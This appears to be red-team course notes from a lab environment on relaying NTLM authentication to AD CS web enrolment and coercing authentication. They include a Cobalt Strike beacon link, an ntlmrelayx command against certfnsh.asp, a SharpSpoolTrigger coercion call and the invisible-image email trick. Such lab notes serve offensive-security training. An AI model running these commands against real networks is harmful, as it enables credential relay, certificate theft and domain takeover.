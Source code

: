 All that's left is to link to the Beacon.

```
beacon> link dc-2.dev.cyberbotic.io TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
[+] established link to child beacon: 10.10.122.10
```

#### NTLM Relaying to ADCS HTTP Endpoints

AD CS services support HTTP enrolment methods and even includes a GUI.  This endpoint is usually found at `http[s]://<hostname>/certsrv`.

If NTLM authentication is enabled, these endpoints are vulnerable to NTLM relay attacks.  A common abuse method is to coerce a domain controller to authenticate to an attacker-controlled location, relay the request to a CA to obtain a certificate for that DC, and then use it to obtain a TGT.

An important aspect to be aware of is that you cannot relay NTLM authentication back to the originating machine.  We therefore wouldn't be able to relay a DC to a CA if those services were running on the same machine.  This is indeed the case in the RTO lab, as each CA is running on a DC.

Another good way to abuse this primitive is by gaining access to a machine configured for unconstrained delegation.

To achieve this, we need:

- PortBender on Workstation 2 to capture traffic on port 445 and redirect it to port 8445.
- A reverse port forward to forward traffic hitting port 8445 to the team server on port 445.
- A SOCKS proxy for ntlmrelayx to send traffic back into the network.

The ntlmrelayx command needs to target the `certfnsh.asp` page on the ADCS server.

```
attacker@ubuntu ~> sudo proxychains ntlmrelayx.py -t https://10.10.122.10/certsrv/certfnsh.asp -smb2support --adcs --no-http-server
```

Then force the authentication to occur from WEB to WKSTN-2.

```
beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe 10.10.122.30 10.10.123.102
```

The S4U2Self trick can be used to obtain usable TGS's to move laterally to it. [[User Impersonation#S4U2Self Abuse]]

### Forcing NTLM Authentication

In the real world, it's unlikely you can just jump onto the console of a machine as a privileged user and authenticate to your malicious SMB server.  You can of course just wait for a random event to occur, or try to socially engineer a privileged user.  However, there are also lots of techniques to "force" users to unknowingly trigger NTLM authentication attempts to your endpoint.

Here are a few possibilities.

#### 1x1 Images in Emails

If you have control over an inbox, you can send emails that have an invisible 1x1 image embedded in the body.  When the recipients view the email in their mail client, such as Outlook, it will attempt to download the image over the UNC path and trigger an NTLM authentication attempt.

